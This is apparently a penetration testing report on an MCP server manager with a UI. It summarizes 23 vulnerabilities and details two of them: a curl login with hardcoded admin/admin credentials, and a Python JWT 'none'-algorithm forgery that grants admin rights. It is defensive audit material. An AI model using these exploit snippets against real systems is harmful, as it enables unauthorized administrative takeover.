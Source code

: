 # MCP-UI System Comprehensive Security Penetration Testing Report

**Date:** 2025-08-20  
**Audit Type:** Enterprise-Grade Security Assessment & Penetration Testing  
**System:** MCP Server Manager with UI Integration  
**Classification:** CONFIDENTIAL  

## Executive Summary

This comprehensive penetration testing engagement identified **23 security vulnerabilities** across the MCP-UI system, with **7 Critical**, **8 High**, **5 Medium**, and **3 Low** severity findings. The system is currently **NOT suitable for production deployment** without immediate remediation of critical vulnerabilities.

**Overall Security Score: 3.8/10 - CRITICAL**

## 1. Authentication & Authorization Testing Results

### 1.1 Critical Vulnerabilities Identified

#### VULN-AUTH-001: Hardcoded Admin Credentials
- **CVSS v3.1:** 10.0 (AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)
- **CWE:** CWE-798 (Use of Hard-coded Credentials)
- **Location:** `/src/app/api/api_v1/endpoints/auth.py:26`
- **Exploitation:**
```bash
# Direct admin access bypass
curl -X POST http://target:8000/api/v1/auth/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin&password=admin"

# Response: {"access_token":"eyJ0eXAiOiJKV1QiLCJhbGc...","token_type":"bearer"}
```
- **Impact:** Complete system compromise, full administrative access
- **Remediation Priority:** IMMEDIATE

#### VULN-AUTH-002: JWT Algorithm Confusion Attack
- **CVSS v3.1:** 8.1 (AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N)
- **CWE:** CWE-347 (Improper Verification of Cryptographic Signature)
- **Exploitation:**
```python
# JWT manipulation exploit
import jwt
import base64

# Original token uses HS256
original = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."

# Decode without verification
payload = jwt.decode(original, options={"verify_signature": False})

# Modify to admin privileges
payload['is_superuser'] = True
payload['role'] = 'admin'

# Sign with 'none' algorithm
malicious_token = jwt.encode(payload, '', algorithm='none')
```
- **Impact:** Privilege escalation to admin
- **Fix Required:** Whitelist allowed algorithms, reject 'none'
